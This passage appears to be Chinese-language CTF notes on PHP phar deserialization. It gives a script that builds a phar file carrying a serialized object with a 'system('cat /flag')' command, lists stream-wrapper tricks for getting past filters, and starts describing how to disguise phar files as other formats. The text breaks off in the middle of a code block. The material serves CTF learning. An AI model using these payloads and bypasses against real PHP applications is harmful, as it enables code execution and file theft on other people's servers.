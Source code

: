 ```
* stat()
* readfile()

#### 构造phar文件

```
&lt;?php
class LoveNss{
    public $ljt=&#34;Misc&#34;;
    public $dky=&#34;Re&#34;;
    public $cmd=&#34;system(&#39;cat /flag&#39;);&#34;;
}

$a = new LoveNss();
echo serialize($a);

# 下面这部分就没改
$phar = new Phar(&#34;phar.phar&#34;);
$phar-&gt;startBuffering();
$phar-&gt;setStub(&#34;&lt;?php __HALT_COMPILER(); ?&gt;&#34;); // 设置 stub

$phar-&gt;setMetadata($a); // 将自定义的 meta-data 存入 manifest
$phar-&gt;addFromString(&#34;test.txt&#34;, &#34;test&#34;); // 添加要压缩的文件
// 签名自动计算
$phar-&gt;stopBuffering();
```

读取这个直接`phar://文件名`

&gt; 记得加上文件相对位置

#### 绕过方法

1. `compress.bzip2://phar://`

2. `compress.zlib://phar:///`

3. `php://filter/resource=phar://`

4. `$z = &#39;compress.bzip2://phar:///home/sx/test.phar/test.txt&#39;;`

5. **绕过__HALT_COMPILER ();检测**

   php识别phar文件是通过其文件头的stub，更确切一点来说是`__HALT_COMPILER();?&gt;`

   这段代码，对前面的内容或者后缀名是没有要求的。

   那么我们就可以通过添加任意的文件头&#43;修改后缀名的方式将phar文件伪装成其他格式的文件。

   ```
   &lt;?php
   system(&#34;gzip newtest.phar&#34;);
   